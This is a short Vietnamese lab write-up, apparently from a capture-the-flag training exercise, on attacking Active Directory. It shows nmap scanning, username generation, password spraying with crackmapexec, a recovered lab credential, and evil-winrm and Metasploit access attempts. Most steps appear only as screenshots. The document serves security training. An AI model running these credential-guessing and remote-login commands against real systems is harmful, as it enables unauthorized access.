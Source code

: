 <h1>Attacking Active Directory & NTDS.dit</h1>\

![image](https://github.com/user-attachments/assets/bc6bf75a-a3d9-4c77-b9b9-df6477e162ba)

![image](https://github.com/user-attachments/assets/c7e4a226-47e7-4f4f-b9f7-0da54bd27250)

![image](https://github.com/user-attachments/assets/163f93be-44e4-42cb-a77f-76b110a5d254)

Như mọi mở đầu, chạy `nmap -sV 10.129.202.85` và thấy chưa biết nên khai thác gì:

![image](https://github.com/user-attachments/assets/a97ec0d5-4749-4db4-aff2-6961c6003d06)

Ở câu hỏi có mấy cái tên nên tôi tạo 1 vài usernane với tool [username anarchy](https://github.com/urbanadventurer/username-anarchy):

![image](https://github.com/user-attachments/assets/0ba7da15-81bd-4482-9f15-feac378718b2)

Dùng `crackmapexec smb 10.129.202.85 -u user.txt -p /usr/share/wordlists/fasttrack.txt` để mò username:pass :

![image](https://github.com/user-attachments/assets/1cca2717-f0c8-4aec-8827-cfa8bb2a6a43)

Sau 1 lúc thì có cjohnson:Welcome1212 :

![image](https://github.com/user-attachments/assets/539d30ca-105d-4194-9154-fec1ea88fa65)

Dùng lệnh `evil-winrm -i 10.129.202.85  -u 'cjohnson' -p 'Welcome1212''` kết nối vào thôi:

Không hiểu sao target bảo không đúng, chạy thử `crackmapexec smb 10.129.42.197 -u "cjohnson" -p "Welcome1212" --shares` cũng chả có gì, đi tìm trên forum thì thấy bảo dùng metasploit để chạy:

![image](https://github.com/user-attachments/assets/04304609-a2f0-4a99-90c1-a891d374ff6f)

![image](https://github.com/user-attachments/assets/b89c256b-f563-4f13-9f7f-62b88982d55d)


